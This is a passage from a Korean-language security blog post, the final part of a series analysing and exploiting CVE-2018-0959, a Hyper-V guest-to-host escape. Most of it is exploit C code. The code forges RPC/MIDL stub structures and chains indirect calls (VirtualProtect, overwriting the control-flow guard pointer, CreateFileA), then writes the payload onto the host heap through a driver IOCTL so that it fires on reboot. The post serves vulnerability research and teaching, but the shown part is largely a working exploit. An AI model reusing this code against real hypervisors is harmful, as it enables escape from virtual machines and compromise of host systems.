	char* trailer = payload + 0x100 * INDIRECT_CALL_CHAIN_LEN;
	__int64* indirectCallTable = trailer, * buffer = NULL;
	MIDL_STUB_DESC *pDesc = (PMIDL_STUB_DESC) (indirectCallTable + INDIRECT_CALL_CHAIN_LEN);


	pDesc->pMallocFreeStruct = 0;
	pDesc->Version = 0xb000;

	pMidl = (PMIDL_SERVER_INFO)(pDesc + 1);
	pMidl->DispatchTable = DispatchTable;
	pMidl->ProcString = ProcStringAddress;//vaild address
	pMidl->FmtStringOffset = FmtStringOffsetAddress;//vaild address
	pMidl->pStubDesc = MidlStubDesc;//vaild address
	pMidl->ThunkTable = NULL;

	pServerInterface = (PRPC_SERVER_INTERFACE)(pMidl + 1);
	pServerInterface->InterpreterInfo = MidlSrvInfo;
	pServerInterface->Flags = 0;//to avoid NdrStubCall2 line 354's branch

	memcpy(payload + (vftable - VideoDirtListener), VideoDirtListenerEntries, 8 * ENTRY_LEN);
```

### Setting Arguments
`DispatchTable`에 호출될 함수의 주소를 저장하고 노드 별로 버퍼에에 호출될 함수의 인자를 설정해줍니다.
```C


	//avoid Exception NdrStubCall2 & NdrpServerUnmarshal
	//NdrStubCall2 line 417
	//NdrpServerUnMarshal line 411
	indirectCallTable[19] = KernelBase_VirtualProtect;

	//call VirtualProtect(rpcrt4!_guard_check_icall_fptr, 0x8, 0x4, `some writable address`);
	indirectCallTable[1] = KernelBase_VirtualProtect;

	node = payload + 1 * 0x100;
	pRpcMsg = node;
	pRpcMsg->ManagerEpv = NULL;
	pRpcMsg->RpcFlags = 0x1000 | 0x10000000 | 0x20000000;
	buffer = node + 0x60/0x8;
	buffer[0] = rpcrt4_guard_check_icall_fptr;
	buffer[1] = 0x8;
	buffer[2] = 0x4;
	buffer[3] = pRpcMsg->Buffer;

	//call GetCopy
	indirectCallTable[2] = combase + 0xd9100;
	node = payload + 2 * 0x100;
	pRpcMsg = node;
	pRpcMsg->ManagerEpv = NULL;
	pRpcMsg->RpcFlags = 0x1000 | 0x10000000 | 0x20000000;
	buffer = node + 0x60/0x8;
	buffer[0] = (char*)pRpcMsg->Buffer + 0x18;//this
	buffer[1] = rpcrt4_guard_check_icall_fptr;//dest
	buffer[2] = ret;
	char* pThis = &buffer[3];
	*(int*)&pThis[0x14] = 0x8;
	*(__int64*)&pThis[0x18] = (char*)pRpcMsg->Buffer + 0x10 - 4;


	//call CreateFileA
	indirectCallTable[3] = KernelBase + 0x41700;//CreateFileA
	node = payload + 3 * 0x100;
	pRpcMsg = node;
	pRpcMsg->ManagerEpv = NULL;
	pRpcMsg->RpcFlags = 0x1000 | 0x10000000 | 0x20000000;
	buffer = node + 0x60/0x8;
	buffer[0] = (char*)pRpcMsg->Buffer + 0x8 * 7;//file name
	buffer[1] = GENERIC_READ | GENERIC_WRITE;//desired access
	buffer[2] = 0;
	buffer[3] = 0;
	buffer[4] = CREATE_ALWAYS;
	buffer[5] = FILE_ATTRIBUTE_NORMAL;
	buffer[6] = NULL;
	memcpy(&buffer[7], "C:\\Users\\Public\\Hackyboiz\0", 27);


	WriteInfo writeInfo = { 0, };

	printf("[+] Offset Between FindVdl Buffer start and VideoDirtListener: %llx\n", (char*)VideoDirtListenerOffset - (char*)FindVdl.buffer);

	writeInfo.from = FindVdl.from + ((char*)VideoDirtListenerOffset - (char*)FindVdl.buffer);

	writeInfo.from -= writeInfo.from % 0x200;

	writeInfo.to = writeInfo.from + 0x800;
	printf("[+] FindVdl Buffer (%p~)\n[+] VideoDirtListener ptr: %p\n[+] Write from %x to %x\n", FindVdl.buffer, VideoDirtListenerOffset, writeInfo.from, writeInfo.to);

	writeInfo.buffer = (char*)FindVdl.buffer + (writeInfo.from - FindVdl.from);

	printf("[+] Write Payload on TargetHeap\n");
	printf("[+] Overwrite Range: Landpoint+0x%x ~ Landpoint+0x%x\n", writeInfo.from, writeInfo.to);
	DeviceIoControl(driver, CORRUPT_IOCTL, &writeInfo, sizeof(WriteInfo), NULL, 0, NULL, NULL);
	printf("[+] Payload is Ready, Reboot Guest To Trigger Payload\n");

```

## Trigger Payload
Exploit을 실행하면 아래와 같이 노드들의 주소나 DLL 주소 등의 정보가 출력되는 것을 볼 수 있습니다. OOB Write로 페이로드를 쓰는 것이 끝난 다음 가상머신을 재부팅하면 페이로드가 실행되어 `C:\User\Public` 밑에 파일이 생성될 것입니다.


마지막으로 익스플로잇 시연 영상을 보시죠!

# Exploit

<iframe width="560" height="315" src="https://www.youtube.com/embed/LvtNtkAll84?si=VRM1u7HSuegWqPoW" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

# Part 6 예고
이로써 CVE-2018-0959의 분석부터 익스플로잇까지 모두 알아보았습니다! 프로젝트 초창기에 Hyper-V 아키텍처 공부하던게 엊그제 같은데... 정말 길고 긴 여정이었습니다. 하지만 여기서 끝이 아니죠! 다음 파트부턴 저 대신 L0ch님이 CVE-2020-0917 분석 글로 돌아올 예정이니 많은 관심 부탁드립니다!
